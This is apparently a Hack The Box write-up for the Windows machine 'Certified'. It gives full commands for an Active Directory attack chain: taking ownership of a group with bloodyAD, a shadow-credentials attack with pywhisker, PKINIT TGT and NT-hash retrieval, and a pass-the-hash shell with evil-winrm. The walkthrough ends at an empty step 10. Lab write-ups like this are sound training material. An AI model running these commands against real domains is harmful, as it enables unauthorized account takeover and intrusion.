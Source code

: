 # Certified

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
![image](https://github.com/user-attachments/assets/3d450477-a74d-497b-b96d-dacf1a0f743d)

2. judith.mader has WriteOwner permissions on management group which has GenericWrite privs on management_svc account
![image](https://github.com/user-attachments/assets/9f75d80d-89af-40a5-9972-eb0ff164c551)

3. change owner of management group to judith

	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 set owner "Management" judith.mader```

4. then give GenericAll privs to judith
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add genericAll Management judith.mader```

5. then add judith to the management group
	
	```python3 bloodyAD.py --host 10.129.231.186 -d certified.htb -u judith.mader -p judith09 add groupMember Management judith.mader```
![image](https://github.com/user-attachments/assets/83e0b353-2b33-456e-be7e-4c4f9fd180cf)

6. now can run shadow credential attack on management_svc

	```python3 pywhisker.py -d certified.htb -u judith.mader -p judith09 -t management_svc -a add --dc-ip 10.129.130.180```
![image](https://github.com/user-attachments/assets/445020c8-2150-461e-ba74-1bd4d5fdaf5b)

7. use PKINIT tools to get TGT for management_svc. Got a clock skew error so fix clock skew and then run again
	
	```python3 gettgtpkinit.py -cert-pfx PFX_FILE -pfx-pass PFX_PASS certified.htb/management_svc -dc-ip 10.129.130.180 ccache```
![image](https://github.com/user-attachments/assets/0931b573-328f-4fd0-a0c3-2e4d937da20c)

8. Export ccache to KRB5CCNAME env var and use AS-REP encryption key from getting TGT to get NT hash of management_svc account using PKINIT tools getnthash.py

	```python3 getnthash.py -key AS_REP_KEY -dc-ip 10.129.130.180 certified.htb/management_svc```

![image](https://github.com/user-attachments/assets/98efc969-2c11-4b5c-8890-777a40922f7d)

9. Can evil-winrm into machine using management_svc hash

	```evil-winrm -i 10.129.130.180 -u management_svc -H HASH```

![image](https://github.com/user-attachments/assets/55e2e59e-2f73-4870-a387-3dfd2e37a651)

10. 


 
